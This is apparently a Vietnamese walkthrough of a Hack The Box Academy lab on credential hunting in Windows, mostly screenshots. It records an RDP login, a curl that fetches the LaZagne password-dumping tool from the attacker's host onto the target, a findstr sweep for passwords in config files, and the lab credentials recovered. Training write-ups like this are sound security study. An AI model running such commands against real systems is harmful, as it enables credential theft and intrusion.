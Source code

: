 ![image](https://github.com/user-attachments/assets/17378cbf-675b-486d-86a8-daa8055b5184)<h1>Credential Hunting in Windows</h1>

![image](https://github.com/user-attachments/assets/5527805b-4c79-45c5-9ac4-2eaa038d33da)

![image](https://github.com/user-attachments/assets/150c597e-7f3a-41a3-9580-3ae95c423372)

Dùng `xfreerdp /u:'Bob' /p:'HTB_@cademy_stdnt!' /v:10.129.171.96` để rdp vào target:

![image](https://github.com/user-attachments/assets/f9981bed-90f4-4696-ab43-adb67fb18c46)

Không có kết nối internet nên không tải được [LaZagne](https://github.com/AlessandroZ/LaZagne) về máy:

![image](https://github.com/user-attachments/assets/ea0c3a9b-419c-43da-bc9a-fcfdcc88c96d)

Nhưng mà tôi lại tìm được bwilliamson:P@55w0rd! và admin:WellConnected123 :

![image](https://github.com/user-attachments/assets/724d4918-ce33-4336-9650-d3f225ca109b)

![image](https://github.com/user-attachments/assets/560096d9-22d5-4da8-bb6e-e76582d2c051)

Và tôi tìm thêm được cái gitlab vì đề có hỏi code gitlab nữa:

![image](https://github.com/user-attachments/assets/5892f1c8-0c66-4663-9288-55ebe445afd6)

![image](https://github.com/user-attachments/assets/d84de721-2c30-4406-a09a-eaa21f087f65)

![image](https://github.com/user-attachments/assets/9665ffd9-1560-42a2-ab05-4f9c171cae9e)

Tiếp đó tôi bật cái http lên `python3 -m http.server 8888` vầ chạy `curl http://10.10.14.105/LaZagne.exe -o LaZagne.exe` trên máy target:

![image](https://github.com/user-attachments/assets/d0a3d998-c41a-4c87-b2ab-3e6fdc3bfaf7)

![image](https://github.com/user-attachments/assets/cb9cbae5-d6ba-4d20-b23f-a4aa5c120ea2)

Và thêm cái ubuntu:FSadmin123 nữa:

![image](https://github.com/user-attachments/assets/7bac07e2-1970-4ad2-b277-be653a173550)

![image](https://github.com/user-attachments/assets/257e94e7-50ae-4d3f-963c-a591b0ae9625)

Tiếp theo thì tôi cd ra C:\ và chạy `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml` vì nếu ở im trong system32 thì kết quả sẽ ra khá ít:

![image](https://github.com/user-attachments/assets/847873aa-dc18-4496-9f6b-b859d60cfe68)

Đang lọ mọ tìm cách mở file kia thì vào vscode thấy pass của câu tiếp:

![image](https://github.com/user-attachments/assets/4db8935f-d1d0-412e-8c9a-c4d30d0d170e)

![image](https://github.com/user-attachments/assets/c9ed7b61-0aee-4ad3-916e-115bdfb50a24)

Và mật khẩu mặc định là đây:

![image](https://github.com/user-attachments/assets/7257d9ab-f60f-4148-94f7-e03c4cfbf49c)

![image](https://github.com/user-attachments/assets/8fa5d4c9-9243-45a7-921b-392ed8bbef29)
